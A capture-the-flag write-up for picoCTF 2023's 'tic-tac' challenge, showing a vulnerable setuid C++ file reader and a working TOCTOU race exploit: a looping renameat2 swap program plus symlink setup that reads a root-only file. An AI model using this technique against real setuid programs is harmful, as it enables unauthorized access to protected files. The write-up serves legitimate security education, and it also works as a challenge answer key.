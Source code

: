 # tic-tac

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, linux, bash, toctou
Author: JUNIAS BONOU

Description:
Someone created a program to read text files; we think the program reads files with 
root privileges but apparently it only accepts to read files that are owned by the 
user running it.

ssh to saturn.picoctf.net:61030, and run the binary named "txtreader" once connected. 
Login as ctf-player with the password, 8a707622
 
Hints:
(None)
```

## Solution

The challenge title and tags tells us that we should expect a [time-of-check to time-of-use (TOC/TOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) race condition.

### Connect to the server

We start by connecting to the server with SSH
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/tic-tac]
└─$ ssh -p 61030 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61030 ([13.59.203.175]:61030)' can't be established.
ED25519 key fingerprint is SHA256:e8pSZxXYptxqGFMvizVN3x1vGmmhC4iDlWjx8/Js5jY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61030' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

### Investigate the scenario

Next, we investigate the available files
```bash
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Oct  1 14:15 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Oct  1 14:15 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$ file txtreader 
txtreader: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f31c8b2980e334387115245d52f922371573666, for GNU/Linux 3.2.0, not stripped
```
We have the `txtreader` program with the [Setuid](https://en.wikipedia.org/wiki/Setuid) bit set.  
And a `flag.txt` file only readable by `root` as well as the source code named `src.cpp`.

### Analyse the C++ file

Now we analyse the C++ source
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
The race condition is between the time-of-check, the `if (stat(filename.c_str(), &statbuf) == -1) {` line,  
and the time-of-use, the `if (file.is_open()) {` line.

This [LiveOverflow video](https://www.youtube.com/watch?v=5g137gsB9Wk) does a good job of describing both the problem and the solution.

### Make a work area

Since the home directory isn't writable to us we need to create a work area
```bash
ctf-player@pico-chall$ TMP_DIR=$(mktemp -d)
ctf-player@pico-chall$ echo $TMP_DIR
/tmp/tmp.ejxpXrVQv6
ctf-player@pico-chall$ chmod 777 $TMP_DIR
ctf-player@pico-chall$ cd $TMP_DIR
```

### Compile the exploit

Then we create the [rename.c exploit](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c) described in the video above.
```bash
ctf-player@pico-chall$ cat << EOF > rename.c
> #define _GNU_SOURCE
> #include <stdio.h>
> #include <fcntl.h>
> #include <stdio.h>
> #include <unistd.h>
> #include <sys/syscall.h>
> #include <linux/fs.h>
> 
> int main(int argc, char *argv[]) {
>   while (1) {
>     syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
>   }
>   return 0;
> }
> EOF
ctf-player@pico-chall$ 
```
Neither `vi` nor `vim` seemed to be installed so I used a [here document](https://tldp.org/LDP/abs/html/here-docs.html) instead.

Now we compile
```bash
ctf-player@pico-chall$ gcc -o rename rename.c 
ctf-player@pico-chall$ file rename 
rename: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=96a47ccc6a617534efdf3fb5e09207cfcb9dd0e9, for GNU/Linux 3.2.0, not stripped
```

### Prepare the files

The exploit takes two files one files.  
One file should be readable by you and the other should be a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) pointing to the file we want to read.
```bash
ctf-player@pico-chall$ ln -s ~/flag.txt
ctf-player@pico-chall$ ls -l flag.txt 
lrwxrwxrwx 1 ctf-player ctf-player 25 Oct  1 14:24 flag.txt -> /home/ctf-player/flag.txt
ctf-player@pico-chall$ touch myfile.txt
```

### Run the exploit

Next we run the exploit in the background
```bash
ctf-player@pico-chall$ ./rename flag.txt myfile.txt &
[1] 53
```

### Get the flag

Finally, we run the `txtreader` program and ask for `myfile.txt`
```bash
ctf-player@pico-chall$ ./txtreader $TMP_DIR/myfile.txt
picoCTF{<REDACTED>}
```

And we get the flag.

For additional information, please see the references below.

## References

- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [mktemp - Linux manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html)
- [Here documents - Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/here-docs.html)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
- [Wikipedia - Symbolic link](https://en.wikipedia.org/wiki/Symbolic_link)
- [Wikipedia - Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
